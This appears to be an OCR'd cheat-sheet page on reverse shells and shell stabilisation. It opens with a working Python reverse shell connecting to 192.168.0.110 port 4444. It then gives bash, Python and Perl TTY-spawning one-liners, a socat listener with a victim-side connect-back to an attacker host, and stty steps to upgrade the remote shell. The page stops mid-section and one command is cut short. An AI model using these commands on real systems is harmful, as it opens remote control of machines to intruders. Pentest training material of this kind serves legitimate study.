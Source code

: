 1 import socket,subprocess,os
2 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
3 s.connect(("192.168.0.110",4444))
4 os.dup2(s.fileno(),0)
5 os.dup2(s.fileno(),1)
6 os.dup2(s.fileno(),2)
7 p=subprocess.call(["/bin/sh","-i"])
8

Spawn TTY

Bash

1 /bin/bash -i
2 echo os.system('/bin/bash')
3 /bin/sh -i

Python

python -c "import pty; pty.spawn('/bin/bash')"

Perl

perl -e 'exec "/bin/bash";'

Socat

On the attacker machine, set up socat listener: replace 4444 with your listening port.

socat -,raw,echo=0 tcp-listen:4444

On the victim machine, connect back the attacker machine and spawn a shell. Replace
<host> with attacker IP and <port> with attacker listing port.

$ socat exec:"/bin/bash -li",pty,stderr,setsid,sigint,sane tcp:<host>:<port>

Misc

1 /usr/bin/script -qc /bin/bash /dev/null
2 /usr/bin/expect sh

Interactive TTY

Backgrounding the remote shell with CTRL-Z:

user@remote:~$ ^Z

Getting ROWS and COLS within current terminal window:

user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /

Ignoring hotkeys in the local shell and getting back to the remote:

user@local:~$ stty raw -echo; fg

Setting correct size for the remote shell (where ROWS and COLS are the values from
the 3rd bullet):

user@remote:~$ stty rows ROWS cols COLS

Adding some colors:
